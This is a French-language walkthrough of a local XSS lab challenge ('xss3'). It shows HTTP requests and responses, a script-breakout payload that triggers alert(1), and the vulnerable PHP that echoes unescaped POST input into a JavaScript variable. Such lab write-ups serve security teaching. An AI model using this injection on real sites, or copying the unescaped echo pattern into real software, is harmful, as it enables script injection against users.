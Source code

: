 # xss3

## Exploitation

A nouveau une fonctionnalité de recherche pour ce troisième challenge, mais le mot renseigné doit être un nom d'utilisateur :&#x20;

![](<../../../.gitbook/assets/image (1) (2) (1).png>)

Lorsque je renseigne un nom d'utilisateur, il n'est ni réfléchi dans un message d'erreur, ni en tant que valeur du champ :&#x20;

```http
POST /xss3/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss3/

name=whatever&submit=Envoyer
```

Je recherche alors le nom directement dans la réponse HTTP :&#x20;

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 1908
Connection: close
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html>
  <head>
    <title>XSS 3</title>
    <link rel="stylesheet" href="../static/css/bootstrap.min.css" />
  </head>
  <body>
    ...
    <script>
      var name="whatever";
    </script>
  </body>
</html>
```

Le nom d'utilisateur renseigné est donc présent en tant que valeur d'une variable Javascript. Je tente assez simplement de sortir de la valeur avec le `"` puis d'exécuter l'affichage de la modale. Le commentaire, à la fin de ma payload, va permettre de se débarrasser des caractères superflus provenant de la concaténation effectuée dans le code `whatever";alert(1);//` :

```http
POST /xss3/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss3/

name=whatever%22%3Balert%281%29%3B%2F%2F&submit=Envoyer
```

![](<../../../.gitbook/assets/image (15) (1).png>)

## Analyse du code source

Le nom d'utilisateur renseigné est récupéré dans la variable `$username`. Cette variable est affichée grâce à la directive `echo` directement au sein d'un bloc Javascript en tant que valeur de la variable `name` :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['name'])) {
    $username = $_POST['name'];
  }
?>

<script>
    <?php if (isset ($username) && !empty ($username)): echo ("var name=\"$username\";");?>
    <?php endif; ?>
</script>
```
